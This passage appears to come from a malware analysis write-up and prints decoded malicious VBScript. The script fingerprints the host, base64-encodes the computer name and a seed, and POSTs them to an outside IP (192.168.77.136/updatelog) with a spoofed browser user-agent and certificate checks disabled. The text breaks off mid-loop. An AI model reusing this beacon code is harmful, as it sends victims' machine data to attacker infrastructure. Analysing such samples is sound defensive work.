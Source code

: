 Decoding the URL-escaped text in CyberChef revealed XML data containing malicious VBScript.
```vbscript
Function Stream_StringToBinary(Text)
  Const adTypeText = 2
  Const adTypeBinary = 1
  Dim BinaryStream
  Set BinaryStream = CreateObject("ADODB.Stream")
  BinaryStream.Type = adTypeText
  BinaryStream.CharSet = "us-ascii"
  BinaryStream.Open
  BinaryStream.WriteText Text
  BinaryStream.Position = 0
  BinaryStream.Type = adTypeBinary
 BinaryStream.Position = 0
 Stream_StringToBinary = BinaryStream.Read
 Set BinaryStream = Nothing
End Function

Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next

Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result

Set oXML = CreateObject("Msxml2.DOMDocument.6.0")
Set oNode = oXML.CreateElement("base64")
oNode.dataType = "bin.base64"

If InStr(1, caption, "2008", vbTextCompare) > 0 Or InStr(1, caption, "7", vbTextCompare) > 0 Then
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
Else
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
End If


retryCount = 3

Do While retryCount < 5
On Error Resume Next
	httpRequest.SetTimeouts 15000, 15000, 15000, 15000
```
